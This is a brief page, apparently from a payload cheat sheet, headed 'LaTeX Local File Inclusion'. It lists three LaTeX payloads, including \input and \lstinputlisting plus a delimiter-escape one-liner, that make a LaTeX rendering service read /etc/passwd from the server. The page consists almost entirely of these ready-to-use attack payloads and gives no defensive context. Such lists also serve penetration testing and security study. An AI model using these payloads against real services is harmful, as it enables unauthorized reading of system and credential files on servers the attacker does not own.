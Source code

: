 # LaTeX Local File Inclusion

### Payloads:

    \input{/etc/passwd}

    \lstinputlisting{/etc/passwd}

    $$\\lstinputlisting{/etc/passwd}$ (Delimiter escape. One-liner)
